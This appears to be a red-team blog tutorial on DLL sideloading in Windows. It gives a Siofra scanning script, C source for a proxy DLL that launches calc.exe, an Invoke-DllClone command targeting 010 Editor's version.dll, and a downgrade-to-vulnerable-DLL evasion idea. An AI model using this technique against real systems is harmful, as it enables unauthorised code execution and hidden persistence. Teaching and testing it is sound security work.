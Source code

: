 Title: DLL-Sideloading Attack: A Fast How-To
Date: 2023-06-09 22:00
Category: Red
Tags: Koppeling, DLL, Sideload, Sideloading, Red-Team, Windows

## What is DLL-Sideloading

In this guide, we will provide a quick overview of a DLL-sideloading attack and demonstrate how it can be executed.
Dynamic link libraries (DLLs) are loaded by the operating system (OS) when an application starts. There are two main methods of loading DLLs, and we focus on those that are specified only by name and not by an absolute path.

DLLs without a specified path are searched by the OS. The OS has a defined search order, which can vary depending on certain settings such as Safe-DLL. To determine the specific search order for your system, you can conduct a search or refer to relevant documentation.

## The Attack

If we can successfully place our own loaded DLL in a directory that is part of the search order and is positioned earlier than the original file, our DLL will be loaded along with the program. It is crucial to note that we must have write access to the directory in order to accomplish this.

## Tools

### siofra
There is a tool that is able to search for these kinds of vulnerabilities I like:
It is [siofra](https://github.com/Cybereason/siofra).

Consider the following powershell script from [here](https://twitter.com/ShitSecure/status/1566126264469098497/photo/1). For 32-bit exchange the Siofra.exe

```powershell
Get-ChildItem -Path "C:\Program Files\" -Filter *.exe -Recurse -File -Name | ForEach-Object{
    mkdir C:\temp\hijacktest
    $binarytoCheck = "C:\Program Files\" + $_
    C:\Tools\siofra\Siofra64.exe --mode file-scan --enum-dependency --dll-hijack -f $binarytoCheck >> C:\temp\hijacktest\toCheck.txt
}
```

Generally the output can be considered in two parts, the binary analysis shows which dlls might be attackable with an exlamation mark:

![picture 1](../images/49369742dbe0ea41b57696a371613a5574117beee51a7cf96318b04763785fb5.png)  

In the next section it will analyse the probable attackable libraries and gives an exploitabilty suggestion:
![picture 2](../images/38019f07c834ac302e5f4c84eba042d7d9a2836f8f507832967946b3a8177bda.png)  

Here you can see, which dll's one would have to place and where.
A nice next step would be to get which of the vulnerable marked locations are writeable to us.

### Koppeling

When placing a DLL with our attack code, we quickly realize the need to provide all the functions that the main binary wants to import from the library. This challenge is addressed by using [koppeling](https://github.com/monoxgas/Koppeling). 

Koppeling is a tool that allows us to provide the original desired DLL and our attacker code separately. It facilitates the merging of these components, ensuring that all the required functions are available for the application.

I use [Invoke-DLLClone](https://github.com/jfmaes/Invoke-DLLClone), which uses Koppeling inside, since I had problems with the original code. Then we just need some DLL code like this:

```c
#include <windows.h>
#include "pch.h"

DWORD WINAPI fireLazor(LPVOID lpParameter) {
	WinExec("calc.exe", 0);
	return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD ul_reason_for_call,
    LPVOID lpReserved) {
    HANDLE threadHandle;

    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
        threadHandle = CreateThread(NULL, 0, fireLazor, NULL, 0, NULL);
        CloseHandle(threadHandle);

    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

### Example

I will attack 010 editor. As we saw before, its version.dll is vulnerable.

Compile the source code from above with Visual Studio as a DLL library and run

```powershell
Invoke-DllClone -Source C:\Windows\System32\version.dll -target C:\Users\you\source\repos\Dll1\x64\Release\urname.dll -output version.dll -sign
```

Placing it in the same directory as 010 editor and running it will cause this:

  
![picture 4](../images/751f81fedc6f887b1a11848c7b64673a878e2f0dcefdbbe7c000a117b6e71a12.png)  


## Downgrading

Most of the time, I consider myself to be in a lower privileged position and contemplate injecting my code somewhere. However, there is another attack against DLL sideloading known as downgrading. This attack may be challenging or ineffective in low-privilege situations, but it becomes particularly interesting in higher privilege scenarios.

With downgrading, we can replace a DLL with a known vulnerable version. If the other imported functions remain intact, the loading process will succeed (although there may be cases where the output of the functions has changed, resulting in runtime issues, but this is not very common).

A downgraded attack-code-free DLL is extremely difficult for the blue team to track. In fact, it can even be an officially signed DLL. Of course, it's essential to have an appropriate exploit to make use of this technique, so keep that in mind.